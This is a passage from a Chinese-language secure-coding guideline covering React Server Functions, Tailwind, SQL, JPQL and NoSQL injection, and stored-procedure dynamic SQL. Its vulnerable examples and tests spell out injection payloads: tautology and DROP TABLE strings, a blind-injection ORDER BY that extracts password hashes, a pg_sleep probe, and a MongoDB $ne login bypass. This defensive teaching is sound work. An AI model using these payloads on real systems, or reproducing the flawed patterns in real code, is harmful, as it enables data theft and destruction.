| `SCG-FE-012` | 必須 | `dangerouslySetInnerHTML` 只能輸出經 DOMPurify 清理的內容；不得以 `ref.current.innerHTML` 繞過；`href` 綁定使用者資料時仍須經 `SCG-FE-004` 的 URL 檢查（不要依賴框架行為作為唯一防線） | 🤖 ESLint `react/no-danger`（警告）、`react/jsx-no-script-url`、`no-unsanitized/property` |
| `SCG-FE-013` | 必須 | Server Functions（`'use server'`）與 Route Handler 都是公開的 HTTP 端點：每一個都必須自行驗證身分、檢查授權（第 4 章）並以 Schema 驗證參數（`SCG-JS-006`），不得假設「只有我的頁面會呼叫它」；不得把秘密或完整的資料庫物件傳給 Client Component | 🧪 直接以 HTTP 呼叫 Server Function 的授權測試；👁 程式碼審查 |
| `SCG-FE-014` | 必須 | 使用 React Server Components 的專案（Next.js App Router、React Router RSC 等）適用伺服器端的修補時限（`SCG-SDL-005`），必須訂閱 React 與框架的安全公告 | 🤖 OSV-Scanner／Dependabot |

```tsx
// ❌ SCG-FE-012：把 Markdown 轉出的 HTML 直接放進 dangerouslySetInnerHTML
export function Article({ html }: { html: string }) {
  return <article dangerouslySetInnerHTML={{ __html: html }} />;
}
```

```tsx
// ✅ SCG-FE-012：先以 DOMPurify 清理；URL 經 safeUrl 檢查
import DOMPurify from 'dompurify';
import { useMemo } from 'react';
import { safeUrl } from './safeUrl';

export function Article({ html, sourceUrl }: { html: string; sourceUrl: string }) {
  const clean = useMemo(() => DOMPurify.sanitize(html, { USE_PROFILES: { html: true } }), [html]);
  return (
    <>
      {/* eslint-disable-next-line react/no-danger -- 內容已由 DOMPurify 清理（SCG-FE-012） */}
      <article dangerouslySetInnerHTML={{ __html: clean }} />
      <a href={safeUrl(sourceUrl)} target="_blank" rel="noopener noreferrer">原文</a>
    </>
  );
}
```

```tsx
// ❌ SCG-FE-013：Server Function 沒有驗證身分與授權，任何人都能以 orderId 取消別人的訂單
'use server';
import { db } from './db';

export async function cancelOrder(orderId: string) {
  await db.order.update({ where: { id: orderId }, data: { status: 'CANCELLED' } });
}
```

```tsx
// ✅ SCG-FE-013：Server Function 自行驗證身分、檢查擁有者、以 Schema 驗證參數，只回傳必要欄位
'use server';
import { z } from 'zod';
import { db } from './db';
import { requireSession } from './auth';

const CancelInput = z.strictObject({ orderId: z.uuid() });

export async function cancelOrder(input: unknown): Promise<{ ok: boolean }> {
  const session = await requireSession();                         // 未登入時拋出例外
  const { orderId } = CancelInput.parse(input);
  const result = await db.order.updateMany({
    where: { id: orderId, customerId: session.userId, status: 'CREATED' },   // 擁有者與狀態寫進條件（SCG-ACL-002）
    data: { status: 'CANCELLED' },
  });
  return { ok: result.count === 1 };
}
```

```json
{
  "_comment": "✅ SCG-FE-014：package.json 片段。React 與 RSC 傳輸套件使用已修補的版本，並以 overrides 確保間接相依也升級",
  "dependencies": {
    "react": "19.3.0",
    "react-dom": "19.3.0",
    "next": "16.4.0"
  },
  "overrides": {
    "react-server-dom-webpack": "19.3.0"
  }
}
```

#### 🔍 9.4 審查與驗證

- **自動檢查：** ESLint `react/no-danger`（警告）、`react/jsx-no-script-url`、`react/jsx-no-target-blank`、`no-unsanitized/property`；OSV-Scanner 或 `npm audit` 確認沒有 CVE-2025-55182 等已知弱點；以 `curl` 直接 `POST` Server Function 端點（不帶 Session）確認被拒絕。
- **人工審查問題：**
  1. 每一個 `'use server'` 函式的第一件事是否為驗證身分與授權？
  2. Server Component 傳給 Client Component 的 props 是否包含不該公開的欄位（雜湊、內部備註、其他使用者的資料）？（應在伺服器端先轉成只含必要欄位的 DTO，再傳給 Client Component。）
  3. 專案中的 `react-server-dom-*` 實際解析到哪個版本？（`npm ls react-server-dom-webpack`）
- **AI 常見錯誤：** 為了顯示 Markdown 直接使用 `dangerouslySetInnerHTML`；Server Function 沒有授權檢查；把整個資料庫物件（含密碼雜湊）作為 props 傳給 Client Component。

### 9.5 Tailwind CSS

Tailwind CSS 在**建置期**掃描原始碼，產生靜態的 CSS 檔案，因此本身不會在執行期處理使用者輸入，與嚴格的 CSP 完全相容。安全問題出現在兩個地方：開發者以使用者輸入組合 class 或樣式，以及在正式環境使用瀏覽器端的 Play CDN。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-FE-015` | 必須 | 不得以使用者輸入組合 class 名稱或行內樣式（例如以樣板字串組合 `bg-${color}-500`，或 `style={{ backgroundImage: 'url(' + userUrl + ')' }}`）；必須以「業務值 → 完整 class 字串」的對照表限制在允許的樣式中。以使用者輸入控制版面可能造成假介面（UI redressing），例如蓋住警告訊息或偽造按鈕 | 👁 程式碼審查；🤖 ESLint `no-restricted-syntax`（附錄 B.3） |
| `SCG-FE-016` | 必須 | 正式環境不得使用 Tailwind 的瀏覽器端版本（v4 的 `@tailwindcss/browser`、v3 的 Play CDN `cdn.tailwindcss.com`），它在執行期產生並注入樣式，需要放寬 CSP；必須使用建置期產生的靜態 CSS | 🤖 html-validate／grep 檢查 `cdn.tailwindcss.com`、`@tailwindcss/browser` |

```tsx
// ❌ SCG-FE-015：以 API 回應組合 class。Tailwind 不會產生執行期才組出的 class，
//    且 status 若可被使用者控制，可注入 "hidden" 或 "fixed inset-0 z-50" 等 class 蓋住頁面
export function Badge({ status }: { status: string }) {
  return <span className={`px-2 rounded bg-${status}-100 ${status}`}>{status}</span>;
}
```

```tsx
// ✅ SCG-FE-015：以對照表限制在允許的完整 class 字串中；不在表中的值使用預設樣式
const BADGE: Record<string, string> = {
  PAID: 'bg-green-100 text-green-800',
  CREATED: 'bg-blue-100 text-blue-800',
  CANCELLED: 'bg-gray-100 text-gray-600',
};

export function Badge({ status }: { status: string }) {
  const cls = Object.hasOwn(BADGE, status) ? BADGE[status] : 'bg-gray-100 text-gray-600';
  return <span className={`px-2 rounded ${cls}`}>{status}</span>;
}
```

```html
<!-- ❌ SCG-FE-016：正式環境使用 Tailwind 瀏覽器端版本，需要 style-src 'unsafe-inline' 才能運作 -->
<script src="https://cdn.jsdelivr.net/npm/@tailwindcss/browser@4"></script>
<!-- ✅ SCG-FE-016：建置期產生的靜態 CSS，與 style-src 'self' 相容 -->
<link rel="stylesheet" href="/assets/app-3f9c2a.css">
```

#### 🔍 9.5 審查與驗證

- **自動檢查：** `git grep -nE "cdn.tailwindcss.com|@tailwindcss/browser"` 必須沒有結果（開發用的原型頁面除外）；ESLint `no-restricted-syntax` 禁止 `className` 中出現含 `${` 的樣板字串（附錄 B.3）。
- **人工審查問題：**
  1. 有沒有 class 或 `style` 的值來自 API 回應、URL 參數或使用者設定？
  2. CSS 變數（`style={{ '--brand': color }}`）的值是否經過允許清單？CSS 的 `url()` 可以送出請求，造成資料外洩或追蹤。
- **AI 常見錯誤：** 以樣板字串 `text-${color}-600` 組合 class（除了安全問題，也會因 Tailwind 掃描不到而沒有樣式）；為了讓 Play CDN 運作而在 CSP 加上 `'unsafe-inline'`。

## 10. SQL 與資料存取

SQL 注入（CWE-89）在 2025 CWE Top 25 排名第二。它的防禦方式早已明確：**參數化查詢**。參數化查詢把 SQL 的「結構」與「資料」分開傳給資料庫，資料永遠不會被解譯為 SQL 語法。剩下的問題都出在參數化做不到的地方（表格與欄位名稱、排序方向），以及開發者在 ORM 中不小心退回字串串接。資料庫權限與加密的設計請見 [資料庫設計指引]() 第 11 章；Spring `JdbcTemplate` 的專題說明見 [JdbcTemplate 安全 SQL 實作指引文件]()。

| 技術 | 安全（參數化） | 不安全（字串串接） |
| --- | --- | --- |
| JDBC | `PreparedStatement` 的 `?` | `Statement.executeQuery("..." + x)` |
| Spring `JdbcClient`／`NamedParameterJdbcTemplate` | `:name` | `.sql("..." + x)` |
| JPA／Hibernate | JPQL 的 `:name`、Criteria API | `createQuery("..." + x)`、`createNativeQuery("..." + x)` |
| MyBatis | `#{name}` | `${name}` |
| Node.js（`pg`、`mysql2`） | `$1`、`?` | 樣板字串插值 `${x}` |
| Python（DB-API、SQLAlchemy） | `%s`、`?`、`:name` | f-string、`%` 格式化 |

### 10.1 參數化查詢

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-SQL-001` | 必須 | 所有 SQL 中的**值**都必須以參數綁定傳入（`PreparedStatement`、具名參數、ORM 參數）；不得以字串串接、`String.format`、樣板字串或 f-string 把外部輸入放進 SQL | 🤖 FindSecBugs `SQL_INJECTION_JDBC`、`SQL_INJECTION_SPRING_JDBC`、`SQL_INJECTION_JPA`；🤖 Semgrep；🤖 Bandit `B608` |
| `SCG-SQL-002` | 必須 | MyBatis 只能使用 `#{}`，不得對外部輸入使用 `${}`；JPA 的 `createQuery`、`createNativeQuery`、Spring Data 的 `@Query` 不得串接字串；`IN` 條件必須綁定集合參數，不得自行以逗號串接 | 🤖 Semgrep 自訂規則（附錄 B.1 `scg-mybatis-dollar`）；🤖 FindSecBugs `SQL_INJECTION_JPA`、`SQL_INJECTION_HIBERNATE` |

```java
// ❌ SCG-SQL-001：字串串接。name 輸入 "' OR '1'='1" 會列出所有使用者；輸入 "'; DROP TABLE users; --" 在允許多敘述的驅動程式上會刪表
package com.example.scg.bad;

import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;

public class UserLookupBad {
    public ResultSet find(Connection conn, String name) throws SQLException {
        Statement st = conn.createStatement();
        return st.executeQuery("SELECT id, name FROM users WHERE name = '" + name + "'");
    }
}
```

```java
// ✅ SCG-SQL-001、SCG-SQL-002：JdbcClient 具名參數；IN 條件綁定集合（Spring 會展開為對應數量的 ?）
package com.example.scg.sql;

import java.util.Collection;
import java.util.List;
import org.springframework.jdbc.core.simple.JdbcClient;
import org.springframework.stereotype.Repository;

@Repository
public class UserLookup {

    public record UserRow(long id, String name) { }

    private final JdbcClient jdbc;

    public UserLookup(JdbcClient jdbc) {
        this.jdbc = jdbc;
    }

    public List<UserRow> findByName(String name) {
        return jdbc.sql("SELECT id, name FROM users WHERE name = :name")
                .param("name", name)
                .query(UserRow.class)
                .list();
    }

    public List<UserRow> findByIds(Collection<Long> ids) {
        if (ids.isEmpty() || ids.size() > 500) {
            throw new IllegalArgumentException("一次查詢 1 到 500 筆");
        }
        return jdbc.sql("SELECT id, name FROM users WHERE id IN (:ids)")
                .param("ids", ids)
                .query(UserRow.class)
                .list();
    }
}
```

```java
// ✅ SCG-SQL-001：以 H2 實際執行，證明注入載荷被當作資料
package com.example.scg.sql;

import static org.assertj.core.api.Assertions.assertThat;

import java.util.List;
import org.junit.jupiter.api.Test;
import org.springframework.jdbc.core.simple.JdbcClient;
import org.springframework.jdbc.datasource.embedded.EmbeddedDatabaseBuilder;
import org.springframework.jdbc.datasource.embedded.EmbeddedDatabaseType;

class UserLookupTest {

    private final UserLookup lookup;

    UserLookupTest() {
        var ds = new EmbeddedDatabaseBuilder().setType(EmbeddedDatabaseType.H2).generateUniqueName(true).build();
        var jdbc = JdbcClient.create(ds);
        jdbc.sql("CREATE TABLE users (id BIGINT PRIMARY KEY, name VARCHAR(50))").update();
        jdbc.sql("INSERT INTO users VALUES (1, 'alice'), (2, 'bob')").update();
        lookup = new UserLookup(jdbc);
    }

    @Test
    void injectionPayloadMatchesNothing() {
        assertThat(lookup.findByName("' OR '1'='1")).isEmpty();
    }

    @Test
    void inClauseIsBound() {
        assertThat(lookup.findByIds(List.of(1L, 2L))).hasSize(2);
    }
}
```

```xml
<!-- ❌ SCG-SQL-002：MyBatis 的 ${} 是字串替換，等同串接 -->
<select id="findByName" resultType="User">
  SELECT id, name FROM users WHERE name = '${name}'
</select>
<!-- ✅ SCG-SQL-002：#{} 會產生 PreparedStatement 的參數 -->
<select id="findByNameSafe" resultType="User">
  SELECT id, name FROM users WHERE name = #{name}
</select>
<!-- ✅ SCG-SQL-002：IN 條件以 foreach 產生多個 #{} 參數 -->
<select id="findByIds" resultType="User">
  SELECT id, name FROM users WHERE id IN
  <foreach item="id" collection="ids" open="(" separator="," close=")">#{id}</foreach>
</select>
```

```java
// ❌ SCG-SQL-002：JPQL 也可以被注入（JPQL injection），只是語法比 SQL 受限
List<User> users = em.createQuery("SELECT u FROM User u WHERE u.email = '" + email + "'", User.class).getResultList();
// ✅ SCG-SQL-002：JPQL 具名參數
List<User> safe = em.createQuery("SELECT u FROM User u WHERE u.email = :email", User.class)
        .setParameter("email", email)
        .getResultList();
```

（片段：JPA 的寫法對照。）

```typescript
// ✅ SCG-SQL-001：Node.js 的 pg 驅動程式以 $1、$2 綁定參數
import pg from 'pg';

const pool = new pg.Pool();

export async function findOrders(customerId: string, status: string) {
  const { rows } = await pool.query(
    'SELECT id, amount FROM customer_order WHERE customer_id = $1 AND status = $2',
    [customerId, status],
  );
  return rows;
}
```

#### 🔍 10.1 審查與驗證

- **自動檢查：** FindSecBugs `SQL_INJECTION_*` 系列；Semgrep `p/java`、`p/javascript` 的 SQL 注入規則與附錄 B.1 的 `scg-mybatis-dollar`；Bandit `B608`。以 `git grep -nE '\$\{[^}]+\}' -- '*Mapper.xml'` 列出所有 MyBatis 的 `${}`。
- **人工審查問題：**
  1. 每一個 `${}`、`createNativeQuery`、`+` 組合 SQL 的地方，被串接的值是否完全由程式控制（常數或列舉）？
  2. 有沒有「先跳脫單引號再串接」的寫法？跳脫函式會因資料庫、字元集（例如寬字元）、`NO_BACKSLASH_ESCAPES` 設定不同而失效。
- **AI 常見錯誤：** 以 `String.format("... WHERE id = %s", id)` 組合 SQL；MyBatis 使用 `${}` 因為「`#{}` 加了引號導致語法錯誤」（通常是用錯地方，例如表格名稱，應改用 10.2 的允許清單）。

### 10.2 識別字、排序與 LIKE

參數化只能用於**值**，不能用於 SQL 的結構：表格名稱、欄位名稱、排序方向、`LIMIT` 以外的關鍵字都不能以參數綁定。這是 SQL 注入在已經「全面使用 PreparedStatement」的專案中仍然出現的主要原因。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-SQL-003` | 必須 | 動態的表格名稱、欄位名稱、排序欄位與排序方向，必須以允許清單（列舉或對照表）把外部輸入對應到程式中的常數，不得把外部輸入直接放進 SQL；找不到對應時拒絕請求或使用預設值 | 🧪 以非允許清單的欄位名稱測試；🤖 Semgrep |
| `SCG-SQL-004` | 應該 | `LIKE` 查詢應跳脫使用者輸入中的萬用字元（`%`、`_` 與跳脫字元本身），並限制搜尋字串的最短長度，避免 `%` 造成全表掃描與資料大量列出 | 🧪 以 `%`、`_` 輸入測試 |

```java
// ✅ SCG-SQL-003、SCG-SQL-004：排序欄位與方向以列舉對應；LIKE 跳脫萬用字元
package com.example.scg.sql;

import java.util.List;
import java.util.Locale;
import org.springframework.jdbc.core.simple.JdbcClient;

public class ProductSearch {

    public enum SortColumn {
        NAME("p.name"), PRICE("p.price"), CREATED("p.created_at");

        private final String sql;

        SortColumn(String sql) {
            this.sql = sql;
        }

        static SortColumn from(String requested) {
            try {
                return SortColumn.valueOf(requested.toUpperCase(Locale.ROOT));
            } catch (IllegalArgumentException | NullPointerException e) {
                return NAME;                                       // 不在允許清單中，使用預設值
            }
        }
    }

    public record ProductRow(long id, String name) { }

    private final JdbcClient jdbc;

    public ProductSearch(JdbcClient jdbc) {
        this.jdbc = jdbc;
    }

    static String escapeLike(String s) {
        return s.replace("!", "!!").replace("%", "!%").replace("_", "!_");
    }

    public List<ProductRow> search(String keyword, String sort, boolean desc) {
        if (keyword == null || keyword.strip().length() < 2) {
            throw new IllegalArgumentException("關鍵字至少 2 個字元");
        }
        String orderBy = SortColumn.from(sort).sql + (desc ? " DESC" : " ASC");   // 只有常數進入 SQL 結構
        return jdbc.sql("SELECT p.id, p.name FROM product p WHERE p.name LIKE :kw ESCAPE '!' ORDER BY " + orderBy)
                .param("kw", "%" + escapeLike(keyword.strip()) + "%")
                .query(ProductRow.class)
                .list();
    }
}
```

```java
// ✅ SCG-SQL-003、SCG-SQL-004：測試非允許清單的排序欄位與萬用字元
package com.example.scg.sql;

import static org.assertj.core.api.Assertions.assertThat;

import org.junit.jupiter.api.Test;
import org.springframework.jdbc.core.simple.JdbcClient;
import org.springframework.jdbc.datasource.embedded.EmbeddedDatabaseBuilder;
import org.springframework.jdbc.datasource.embedded.EmbeddedDatabaseType;

class ProductSearchTest {

    private final ProductSearch search;

    ProductSearchTest() {
        var jdbc = JdbcClient.create(new EmbeddedDatabaseBuilder().setType(EmbeddedDatabaseType.H2).generateUniqueName(true).build());
        jdbc.sql("CREATE TABLE product (id BIGINT PRIMARY KEY, name VARCHAR(50), price DECIMAL(10,2), created_at TIMESTAMP)").update();
        jdbc.sql("INSERT INTO product VALUES (1, '100% 純棉', 10, CURRENT_TIMESTAMP), (2, '棉麻', 20, CURRENT_TIMESTAMP)").update();
        search = new ProductSearch(jdbc);
    }

    @Test
    void injectionInSortFallsBackToDefault() {
        assertThat(search.search("純棉", "name; DROP TABLE product--", false)).hasSize(1);
    }

    @Test
    void percentIsTreatedLiterally() {
        assertThat(search.search("0%", "price", false)).extracting(ProductSearch.ProductRow::id).containsExactly(1L);
        assertThat(search.search("%%", "price", false)).isEmpty();
    }
}
```

```java
// ❌ SCG-SQL-003：排序欄位直接來自請求參數。sort=(CASE WHEN (SELECT substr(password,1,1) FROM users LIMIT 1)='a' THEN name ELSE price END)
//    可以逐字元推出密碼雜湊（布林盲注）
String sql = "SELECT id, name FROM product ORDER BY " + request.getParameter("sort");
```

（片段：排序注入的反例。）

#### 🔍 10.2 審查與驗證

- **自動檢查：** Semgrep 會把 `"... ORDER BY " + x` 標為可疑；確認 `x` 來自列舉或常數。以測試送出 `sort=name;select pg_sleep(5)` 並確認回應時間沒有增加。
- **人工審查問題：** 分頁、排序、篩選欄位的「動態查詢產生器」是否接受任意欄位名稱？報表模組是否允許使用者指定欄位？
- **AI 常見錯誤：** 以 `"ORDER BY " + sortField + " " + sortDir` 實作排序；以 `sortField.matches("[a-zA-Z_]+")` 當作防護（欄位名稱合法不代表允許查詢，例如 `password_hash`）。

### 10.3 查詢資源與其他查詢語言

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-SQL-005` | 應該 | 應用程式的查詢應設定逾時（連線池、驅動程式或資料庫層級的 `statement_timeout`）與最大回傳筆數，避免單一請求耗盡資料庫資源 | 🧪 長時間查詢被中止的測試；👁 設定審查 |
| `SCG-SQL-006` | 必須 | NoSQL（MongoDB 等）查詢不得把未驗證的請求物件直接當作查詢條件；必須先驗證型別（例如確認是字串而不是 `{"$ne": null}` 這類運算子物件），或使用會拒絕運算子的函式庫設定（例如 Mongoose 的 `sanitizeFilter`） | 🧪 以運算子物件測試；🤖 Semgrep 自訂規則 `scg-nosql-request-object` |

```yaml
# ✅ SCG-SQL-005：HikariCP 與 PostgreSQL 的查詢逾時；JPA 的預設最大筆數由程式以分頁控制（SCG-GEN-009）
spring:
  datasource:
    hikari:
      connection-timeout: 3000
      maximum-pool-size: 20
      data-source-properties:
        options: "-c statement_timeout=5000 -c idle_in_transaction_session_timeout=30000"
  jpa:
    properties:
      jakarta.persistence.query.timeout: 5000
```

```sql
-- ✅ SCG-SQL-005：也可以在資料庫角色層級設定，避免應用程式忘記設定
CREATE ROLE report_app LOGIN PASSWORD 'change-me';
ALTER ROLE report_app SET statement_timeout = '5s';
ALTER ROLE report_app SET idle_in_transaction_session_timeout = '30s';
```

```typescript
// ❌ SCG-SQL-006：直接把請求本文當作查詢條件。送出 {"username":"admin","password":{"$ne":null}} 即可登入
app.post('/login', async (req, res) => {
  const user = await users.findOne({ username: req.body.username, password: req.body.password });
  res.json({ ok: Boolean(user) });
});
```

```typescript
// ✅ SCG-SQL-006：先以 Schema 驗證為字串，再建立查詢條件；密碼比對使用雜湊（SCG-AUTH-001）
import { z } from 'zod';

const Login = z.strictObject({ username: z.string().max(50), password: z.string().max(128) });

export function buildUserFilter(body: unknown): { username: string } {
  const { username } = Login.parse(body);                  // {"$ne": null} 會因型別不是字串而被拒絕
  return { username };
}
```

#### 🔍 10.3 審查與驗證

- **自動檢查：** 附錄 B.1 的 Semgrep 自訂規則 `scg-nosql-request-object`；以整合測試送出 `{"$gt": ""}` 確認回 400。
- **人工審查問題：** 有沒有任何查詢可以一次回傳數十萬筆資料？報表匯出是否以分批或非同步方式處理？
- **AI 常見錯誤：** `findOne(req.body)`；`find({ name: req.query.name })` 而 `req.query.name` 可能是物件（Express 4 預設的 `qs` 解析器，或 Express 5 設定 `query parser` 為 `extended` 時，會把 `?name[$ne]=x` 解析成物件）。

## 11. 預存程序

預存程序（Stored Procedure）、函式與觸發程序在資料庫內執行，常被視為「比應用程式安全」。事實上，**預存程序內的動態 SQL 與應用程式中的字串串接一樣容易被注入**，而且預存程序常以較高的權限執行，被注入後的影響更大。本章以 PostgreSQL（PL/pgSQL）、Oracle（PL/SQL）、SQL Server（T-SQL）、Db2（SQL PL）四種方言對照說明。所有範例都在 PostgreSQL 18、Oracle AI Database 26ai Free（23.26.3）、SQL Server 2025、Db2 12.1 容器中實際執行（見附錄 F.2）。

| 主題 | PostgreSQL | Oracle | SQL Server | Db2 |
| --- | --- | --- | --- | --- |
| 動態 SQL 綁定值 | `EXECUTE ... USING` | `EXECUTE IMMEDIATE ... USING`、`OPEN ... FOR ... USING` | `sp_executesql @sql, N'@p ...', @p = ...` | `PREPARE` ＋ `EXECUTE ... USING`／`OPEN ... USING` |
| 動態識別字 | `format('%I')`、`quote_ident()` | `DBMS_ASSERT.SIMPLE_SQL_NAME`、`ENQUOTE_NAME` | `QUOTENAME()` | 無內建函式；以允許清單對應 |
| 不安全的寫法 | `EXECUTE '...' \|\| p_val` | `EXECUTE IMMEDIATE '...' \|\| p_val` | `EXEC('...' + @val)` | `EXECUTE IMMEDIATE '...' \|\| p_val` |
| 執行權限模型 | `SECURITY INVOKER`（預設）／`SECURITY DEFINER` | `AUTHID DEFINER`（預設）／`AUTHID CURRENT_USER` | 擁有權鏈結、`EXECUTE AS` | 靜態 SQL 以擁有者權限執行；動態 SQL 依 `DYNAMICRULES` |
| 新函式的預設執行權限 | **授予 PUBLIC** | 只有擁有者 | 只有擁有者 | 只有擁有者 |

### 11.1 預存程序中的動態 SQL

範例共用的資料表（四種方言各一份）：

```sql
-- [PostgreSQL]
CREATE TABLE customer (
    id            integer PRIMARY KEY,
    name          varchar(50)  NOT NULL,
    email         varchar(100) NOT NULL,
    branch_code   char(3)      NOT NULL,
    password_hash varchar(100) NOT NULL
);
INSERT INTO customer VALUES (1, 'alice', 'alice@example.com', 'TPE', '{argon2}...'),
                            (2, 'bob',   'bob@example.com',   'KHH', '{argon2}...');
```

```sql
-- [Oracle]
CREATE TABLE customer (
    id            NUMBER(10)    PRIMARY KEY,
    name          VARCHAR2(50)  NOT NULL,
    email         VARCHAR2(100) NOT NULL,
    branch_code   CHAR(3)       NOT NULL,
    password_hash VARCHAR2(100) NOT NULL
);
INSERT INTO customer VALUES (1, 'alice', 'alice@example.com', 'TPE', '{argon2}...');
INSERT INTO customer VALUES (2, 'bob', 'bob@example.com', 'KHH', '{argon2}...');
COMMIT;
```

```sql
-- [SQL Server]
CREATE TABLE dbo.customer (
    id            int           PRIMARY KEY,
    name          nvarchar(50)  NOT NULL,
    email         nvarchar(100) NOT NULL,
    branch_code   char(3)       NOT NULL,
    password_hash nvarchar(100) NOT NULL
);
INSERT INTO dbo.customer VALUES (1, N'alice', N'alice@example.com', 'TPE', N'{argon2}...'),
                                (2, N'bob',   N'bob@example.com',   'KHH', N'{argon2}...');
```

```sql
-- [Db2]
CREATE TABLE customer (
    id            INTEGER      NOT NULL PRIMARY KEY,
    name          VARCHAR(50)  NOT NULL,
    email         VARCHAR(100) NOT NULL,
    branch_code   CHAR(3)      NOT NULL,
    password_hash VARCHAR(100) NOT NULL
)@
INSERT INTO customer VALUES (1, 'alice', 'alice@example.com', 'TPE', '{argon2}...'),
                            (2, 'bob', 'bob@example.com', 'KHH', '{argon2}...')@
```

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-SP-001` | 必須 | 預存程序內的動態 SQL，所有**值**都必須以綁定變數傳入（`EXECUTE ... USING`、`EXECUTE IMMEDIATE ... USING`、`sp_executesql`、`PREPARE`＋`USING`）；不得以 `\|\|` 或 `+` 串接參數值；不需要動態 SQL 時應使用靜態 SQL | 🤖 SQLFluff／程式碼搜尋（`EXEC(`、`EXECUTE IMMEDIATE '...' \|\|`）；🧪 以注入載荷呼叫程序的測試 |
| `SCG-SP-002` | 必須 | 動態 SQL 中的識別字（表格、欄位、排序）必須先以允許清單對應，再以資料庫提供的識別字引用函式處理（`format('%I')`、`DBMS_ASSERT`、`QUOTENAME`）；Db2 沒有內建函式，必須只使用允許清單中的常數 | 🧪 以非允許清單的欄位名稱呼叫的測試 |

**PostgreSQL（PL/pgSQL）**

```sql
-- [PostgreSQL] ❌ SCG-SP-001：串接參數值。p_val 輸入 x' OR '1'='1 會回傳所有客戶；p_col 可注入任意運算式
CREATE FUNCTION find_customers_bad(p_col text, p_val text)
RETURNS TABLE (id integer, name varchar) LANGUAGE plpgsql AS $$
BEGIN
    RETURN QUERY EXECUTE 'SELECT id, name FROM customer WHERE ' || p_col || ' = ''' || p_val || '''';
END $$;

SELECT count(*) FROM find_customers_bad('name', $q$x' OR '1'='1$q$);
-- 預期結果：2
```

```sql
-- [PostgreSQL] ✅ SCG-SP-001、SCG-SP-002：欄位以允許清單檢查並以 %I 引用；值以 USING 綁定
CREATE FUNCTION find_customers(p_col text, p_val text)
RETURNS TABLE (id integer, name varchar) LANGUAGE plpgsql STABLE AS $$
BEGIN
    IF p_col NOT IN ('name', 'email', 'branch_code') THEN
        RAISE EXCEPTION 'column not allowed: %', p_col USING ERRCODE = '22023';
    END IF;
    RETURN QUERY EXECUTE format('SELECT c.id, c.name FROM customer c WHERE c.%I = $1', p_col) USING p_val;
END $$;

SELECT count(*) FROM find_customers('name', $q$x' OR '1'='1$q$);
-- 預期結果：0
SELECT count(*) FROM find_customers('name', 'alice');
-- 預期結果：1
SELECT count(*) FROM find_customers('password_hash', 'x');
-- 預期錯誤：column not allowed
```

**Oracle（PL/SQL）**

```sql
-- [Oracle] ❌ SCG-SP-001：EXECUTE IMMEDIATE 串接參數值
CREATE OR REPLACE PROCEDURE count_customers_bad(p_col IN VARCHAR2, p_val IN VARCHAR2, p_cnt OUT NUMBER) AS
BEGIN
    EXECUTE IMMEDIATE 'SELECT COUNT(*) FROM customer WHERE ' || p_col || ' = ''' || p_val || '''' INTO p_cnt;
END;
/
SET SERVEROUTPUT ON
DECLARE
    n NUMBER;
BEGIN
    count_customers_bad('name', 'x'' OR ''1''=''1', n);
    DBMS_OUTPUT.PUT_LINE('result=' || n);
END;
/
-- 預期結果：result=2
```

```sql
-- [Oracle] ✅ SCG-SP-001、SCG-SP-002：允許清單＋DBMS_ASSERT.SIMPLE_SQL_NAME；值以 USING 綁定
CREATE OR REPLACE PROCEDURE count_customers(p_col IN VARCHAR2, p_val IN VARCHAR2, p_cnt OUT NUMBER)
AUTHID CURRENT_USER AS
    v_col VARCHAR2(30);
BEGIN
    v_col := CASE UPPER(p_col)
                 WHEN 'NAME' THEN 'NAME'
                 WHEN 'EMAIL' THEN 'EMAIL'
                 WHEN 'BRANCH_CODE' THEN 'BRANCH_CODE'
             END;
    IF v_col IS NULL THEN
        RAISE_APPLICATION_ERROR(-20001, 'column not allowed');
    END IF;
    EXECUTE IMMEDIATE 'SELECT COUNT(*) FROM customer WHERE ' || DBMS_ASSERT.SIMPLE_SQL_NAME(v_col) || ' = :v'
        INTO p_cnt USING p_val;
END;
/
SET SERVEROUTPUT ON
DECLARE
    n NUMBER;
BEGIN
    count_customers('name', 'x'' OR ''1''=''1', n);
    DBMS_OUTPUT.PUT_LINE('injection=' || n);
    count_customers('name', 'alice', n);
    DBMS_OUTPUT.PUT_LINE('alice=' || n);
END;
/
-- 預期結果：injection=0
-- 預期結果：alice=1
```

**SQL Server（T-SQL）**

```sql
-- [SQL Server] ❌ SCG-SP-001：EXEC 串接參數值
CREATE OR ALTER PROCEDURE dbo.find_customers_bad @col sysname, @val nvarchar(100)
AS
BEGIN
    SET NOCOUNT ON;
    EXEC (N'SELECT id, name FROM dbo.customer WHERE ' + @col + N' = ''' + @val + N'''');
END;
GO
EXEC dbo.find_customers_bad @col = N'name', @val = N'x'' OR ''1''=''1';
-- 預期結果：bob
```

```sql
-- [SQL Server] ✅ SCG-SP-001、SCG-SP-002：允許清單＋QUOTENAME；值以 sp_executesql 參數綁定
CREATE OR ALTER PROCEDURE dbo.find_customers @col sysname, @val nvarchar(100)
AS
BEGIN
    SET NOCOUNT ON;
    IF @col NOT IN (N'name', N'email', N'branch_code')
        THROW 50001, N'column not allowed', 1;
    DECLARE @sql nvarchar(max) = N'SELECT id, name FROM dbo.customer WHERE ' + QUOTENAME(@col) + N' = @v';
    EXEC sys.sp_executesql @sql, N'@v nvarchar(100)', @v = @val;
END;
GO
EXEC dbo.find_customers @col = N'name', @val = N'x'' OR ''1''=''1';
EXEC dbo.find_customers @col = N'name', @val = N'alice';
-- 預期結果：alice
EXEC dbo.find_customers @col = N'password_hash', @val = N'x';
-- 預期錯誤：column not allowed
```

**Db2（SQL PL）**

```sql
-- [Db2] ❌ SCG-SP-001：串接參數值後 PREPARE，參數值被當成 SQL 語法
CREATE OR REPLACE PROCEDURE count_customers_bad(IN p_col VARCHAR(30), IN p_val VARCHAR(100), OUT p_cnt INTEGER)
LANGUAGE SQL
BEGIN
    DECLARE v_sql VARCHAR(400);
    DECLARE c1 CURSOR FOR s1;
    SET v_sql = 'SELECT COUNT(*) FROM customer WHERE ' || p_col || ' = ''' || p_val || '''';
    PREPARE s1 FROM v_sql;
    OPEN c1;
    FETCH c1 INTO p_cnt;
    CLOSE c1;
END@
